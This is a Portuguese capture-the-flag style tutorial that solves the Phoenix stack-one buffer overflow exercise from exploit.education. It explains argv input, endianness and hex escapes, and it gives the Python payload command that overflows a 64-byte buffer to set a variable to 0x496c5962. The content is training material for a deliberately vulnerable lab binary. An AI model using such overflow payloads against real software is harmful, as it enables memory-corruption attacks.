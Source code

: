 # 🎯 Objetivo
Agora o objetivo não é só alterar changeme, é alterar para um valor especifico!

Lembra todo aquele papinho de controlar o valor depois do preenchimento (padding) ?

Pois é, ele vai ser super util agora!

# 💡Dicas
Ver a representação hex de cada letra: $ man ascii
Dar um Google sobre Endianess.

# 💫 Explicação
Se lembra de que no tutorial passado a gente trocou changeme pra 41 e 42?

O que ta acontecendo por tras das cenas é que as letras estão virando a sua representação hex.

Então print("A"*5) é equivalente à print(b"\x41"*5)
> Presta atenção no b"" : esse b indica que são Bytes! :D

As vezes o python3 vai reclamar de você usar valores arbitrários pra esses bytes,
então você pode usar o python2 (o print não tem parenteses, mas o resto é igual):
> $ python -c "print 'blablabla'"

Nesse caso, changeme ta sendo comparada com 0x496c5962:
```
  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  ....
```
O buffer tem tamanho 64 de novo, então podemos usar 64 caracteres para preenche-lo, igual na anterior! uhuuuu :D

Nesse caso, o programa não ta usando o gets pra abrir um input. Ele ta usando o argv (o que vem depois do nome do programa quando vc o executa no terminal)
> ./stack-one teste batata
```
agrv[0] = stack-one (o nome do programa)
argv[1] = teste
argv[2] = batata
... e assim por diante

argc é a contagem: quantas coisas tem no argv! E aqui tá checando se é menor que 2!
```
então no nosso caso, o agrv vai funcionar assim:
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962
```
o $() executa oq ta dentro dos parenteses e passa pro programa, nesse caso ficaria:
> ./stack-one AAAAAAAAAAAAAA...

E o program avisa que o valor de changeme não foi alterado!

O valor de changeme tem tamanho 4 bytes, pq ele é um integer (integers são 32 ou 64 bits, então 4 ou 8 bytes). Isso quer dizer que a gente pode colocar 4 letras :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + 'BCDE'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x45444342, we want 0x496c5962
```
Ue, que esquisito, vc reparou algo de estranho?

A gente pegiu pra colocar BCDE (42 43 44 45) e ele colocou EDCB (45 44 43 42), por que isso?

Os computadores armazenam integers usando um sistema Little Endian (LE) ou Big Endian (BE), esses sistemas decidem como os numeros são representados.
> Esses sistemas se referem a magnitude dos digitos, Centena, Dezena, Unidade,...

> Em um sistema BE, os numeros são representados em ordem descrescente CDU.
> Em um sistema LE, os numeros são representados em ordem crescente UDC.
```
Por exemplo, o numero cento e vinte três:
BE: 123        LE: 321
```
No dia a dia, usamos o sistema BE, mas os computadores preferem LE, então eles invertem a ordem dos 4 bytes dos inteiros!

Então pra gente conseguir que changeme seja BCDE, a gente precisa dar EDCB pro computador! :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + 'EDCB'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42434445, we want 0x496c5962
```
Isso quer dizer que pra gente definir changeme = 49 6c 59 62, e completar o desafio, a gente precisa inverter a ordem dos bytes (62 59 6c 49)! :D
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + b'\x62\x59\x6c\x49'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
Yay vitoria! 

### 🌙 Dica: Usando valores hex diretamente 
Mas pera, que coisa esquisita de \x é essa?

Lembra que eu falei que letras são valores hex? A gente tambem pode usar os valores hex diretamente usando \x  :D
> Então b"\x41" é igual a b"A"!

Caso você queira usar as letras, voce pode tambem! O valor hex de cada letra ta disponivel em: > $ man ascii
Então b'\x62\x59\x6c\x49' viraria b'bYlI'
```
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
Mas e nos casos que o byte não tem um correspondente válido? Vc usa "\x" :D

Na verdade, é mais prático usar \x 99% das vezes, mas é bom ter mais de uma opção ;)


Ufa, mais um tutorial terminado! Valeu por ter lido, te vejo no próximo :D 

# 🔥 Solução
> ./stack-one $(python -c "print b'A' * 64 + b'bYlI'")
